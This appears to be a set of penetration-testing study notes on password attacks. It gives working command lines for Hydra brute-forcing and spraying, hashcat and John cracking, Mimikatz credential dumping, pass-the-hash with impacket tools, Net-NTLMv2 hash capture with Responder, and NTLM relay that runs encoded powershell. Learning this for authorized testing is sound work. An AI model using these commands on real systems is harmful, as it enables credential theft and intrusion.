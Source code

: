 <h3 id="hydra">Hydra</h3>
<ul>
<li>Can be used on a lot of things</li>
<li>SSH:<ul>
<li>`sudo hydra -l {username} -P {password_list} -s {port} ssh://{IP}</li>
<li>Lets say we found a password, and want to spray it everywhere (like rdp)<ul>
<li><code>sudo hydra -L {username_list} -p {password} rdp://{IP}</code></li>
</ul>
</li>
</ul>
</li>
<li>HTTP:<ul>
<li>Provide a username, password list, IP, endpoint to post to, ^PASS^ for the password used, and a string in the HTTP of the failed result</li>
<li><code>sudo hydra -l {username} -P {password_list} {IP} http-post-form &quot;/{endpoint}:{param1}=^PASS^:Login failed. Invalid&quot;</code><ul>
<li>So, for example: <code>sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form &quot;/index.php:user=admin&amp;password=^PASS^:Login failed. Invalid&quot;</code></li>
</ul>
</li>
<li>Could also likely just use ffuf (with a filter on size if app returns 200)<h3 id="passwords">Passwords</h3>
</li>
</ul>
</li>
<li>AES is symmetric, RSA is asymmetric</li>
<li>GPUs crack like a thousand times faster than CPUs<h3 id="password-cracking">Password Cracking</h3>
</li>
<li>Mutating Wordlists:<ul>
<li><a href="https://github.com/frizb/Hashcat-Cheatsheet?tab=readme-ov-file">https://github.com/frizb/Hashcat-Cheatsheet?tab=readme-ov-file</a></li>
<li>Sometimes wordlists might not match the minimum requirements of a password for a location being tested, so the wordlist can drop all of the unneeded passwords</li>
<li><code>hashcat -r &quot;$1 c $!&quot; {password_list}</code> will capitalize the first letter of each password, append &quot;1&quot; to the end of each password, and then append &quot;!&quot; to the end of that password<ul>
<li>Putting these rules into a file with newlines will create a new password for each newline, adding that lines modifications to that password</li>
<li>Hashcat provides some rules in <code>/usr/share/hashcat/rules/</code>, like <code>rockyou-30000</code><ul>
<li>They always seem to use <code>best64.rule</code></li>
</ul>
</li>
</ul>
</li>
<li>These modifications can be stored in files and used when cracking--for example:<ul>
<li><code>hashcat -m 0 {hash} {password_list} -r {modification_file} --force</code></li>
</ul>
</li>
</ul>
</li>
<li>Ensure to find the type of hash before cracking to save time</li>
<li>Extracting hashes:<ul>
<li>Many methods, but here&#39;s a novel one:<ul>
<li><code>Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue</code> will search for kdbx files (KeePass files) containing hashes</li>
<li>keepass2john {keepass_database_file} to extract hash</li>
</ul>
</li>
</ul>
</li>
<li>Determining hash type:<ul>
<li><code>hashcat --help</code> will list a lot of info about types of hashes, so if we know where the hash is from, we can look it up here with <code>hashcat --help | grep -i &quot;{identifier}</code><ul>
<li>This should return the hashcat mode for the hash, which is a number like 13400</li>
</ul>
</li>
</ul>
</li>
<li>Cracking the hash:<ul>
<li><code>hashcat -m {hashcat_mode (e.g. 13400)} {hash} {wordlist} -r {mutation} --force</code><ul>
<li>Increase speed with <code>-O -w 4 --opencl-device-types 1,2</code></li>
</ul>
</li>
</ul>
</li>
</ul>
<h3 id="ssh-private-key-passphrase">SSH Private Key Passphrase</h3>
<ul>
<li><code>ssh2john {private RSA SSH key file} &gt; ssh.hash</code> will put the hash in a crack-able format</li>
<li><code>hashcat -m 22921 ssh.hash {password_list} -r {mutation} --force</code> will crack the SSH hash<ul>
<li>22921 comes from looking up \$6$ in the <code>hashcat --help</code> response</li>
<li>However, this might result in an error due to this cipher not being supported by hashcat</li>
</ul>
</li>
<li>John the Ripper <ul>
<li>Can handle the error above</li>
<li>Can use mutation rules, placed at the end of /etc/john/john.conf</li>
<li><code>john --wordlist={password_list} --rules=sshRules {hash}</code> to crack</li>
</ul>
</li>
</ul>
<h3 id="ntlm">NTLM</h3>
<ul>
<li>NT LAN Manager or Net-NTLMv2</li>
<li>Windows stores hashed passwords in the Security Account Manager (SAM) database file</li>
<li><a href="https://github.com/gentilkiwi/mimikatz">Mimikatz</a> can extract password hashes from memory as a basic user<ul>
<li>Prebuilt version <a href="https://github.com/gentilkiwi/mimikatz/releases">here</a></li>
<li>Can dump plaintext passwords straight as an Administrator</li>
<li>Run with <code>.\mimikatz.exe</code></li>
<li><code>privilege::debug</code> gives us the <code>SeDebugPrivilege</code> to run below commands</li>
<li><code>token::elevate</code> to elevate to SYSTEM user</li>
<li><code>lsadump::sam</code> will dump NTLM hashes of local users</li>
<li><code>sukurlsa::logonpasswords</code> will look for clear-text passwords, dump NTLM hashes (including domain users), and dump Kerberos tickets</li>
</ul>
</li>
<li>Crack NTLM<ul>
<li><code>hashcat -m 1000 {hash} {password_list} -r {mutations} --force</code></li>
</ul>
</li>
<li><strong>Passing NTLM</strong><ul>
<li>Don&#39;t necessarily need to crack the NTLM hash to use it<ul>
<li>NTLM hashes aren&#39;t salted between sessions and remain static</li>
</ul>
</li>
<li>Many tools available:<ul>
<li>SMB enumeration: <code>smbclient</code> and <code>crackmapexec</code></li>
<li>Command execution: <code>impacket</code> -&gt; <code>psexec.py\/wmiexec.py</code></li>
<li><code>Mimikatz</code> can also pass-the-hash</li>
</ul>
</li>
<li>Example - accessing SMB share with <code>smbclient</code><ul>
<li><code>smbclient \\\\{IP}\\{SMB_share_endpoint} -U Administrator --pw-nt-hash {hash_from_Mimikatz}</code></li>
</ul>
</li>
<li>Example2 - getting a shell as an Administrator with <code>psexec.py</code><ul>
<li>Searches for a writeable share and uploads an exe to it, registers exe as a Windows service and starts it</li>
<li><code>impacket-psexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}</code> </li>
<li><code>impacket-wmiexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}</code></li>
<li><code>impacket-smbexec -hashes lmhash:nthash {domain}/{user}@{IP}</code></li>
<li><code>impacket-atexec -hashes lmhash:nthash {domain}/{user}@{IP} {command}</code></li>
</ul>
</li>
</ul>
</li>
<li>Cracking Net-NTLMv2<ul>
<li>Useful when we are an unprivileged user</li>
<li>We have the target start authentication against a machine we own, and capture the hash used during the authentication process</li>
<li><em>Responder</em> is a good tool for capturing Net-NTLMv2 hashes<ul>
<li>Sets up an SMB server that handles auth process and prints hashes</li>
<li><code>sudo responder -I {network interface (like tap0)}</code> to run responder on any given network interface</li>
</ul>
</li>
<li>Getting the target server to contact our server is tricky<ul>
<li>With RCE, it&#39;s easy, just run something like <code>dir \\{Our_machine_IP}\share</code> on the machine running the responder server<ul>
<li>Then, crack the hash with hashcat 5600</li>
</ul>
</li>
<li>Without RCE, there are a couple different techniques<ul>
<li>If there&#39;s a file upload on a webserver on the target, we can use a UNC path (<code>\\{our_IP}\share\xyz)</code> and the application may try to reach out for the file<ul>
<li>This might not work if the slashes are the wrong way, so try something like <code>//{IP}/share.php</code> as the filename</li>
</ul>
</li>
<li>I&#39;d assume local file inclusion would have the same result</li>
</ul>
</li>
</ul>
</li>
<li><strong>Relay Attack</strong><ul>
<li>Lets say you&#39;re in a situation where you&#39;re on a local admin account, but it&#39;s an admin on a different machine. Additionally, we can&#39;t crack the hash from the admin. </li>
<li>Instead of printing the hash, forward it along using <em>ntlmrelayx</em></li>
<li><code>sudo impacket-ntlmrelayx --no-http-server -smb2support -t {IP} -c &quot;powershell -enc {base64_command}&quot;</code><ul>
<li>This will set up an SMB relay to the IP with a powershell command to run</li>
<li>Run SMB <code>dir</code> from the machine we own against the <em>ntlmrelayx</em> machine, which will immediately pass the hash received onto the target machine</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
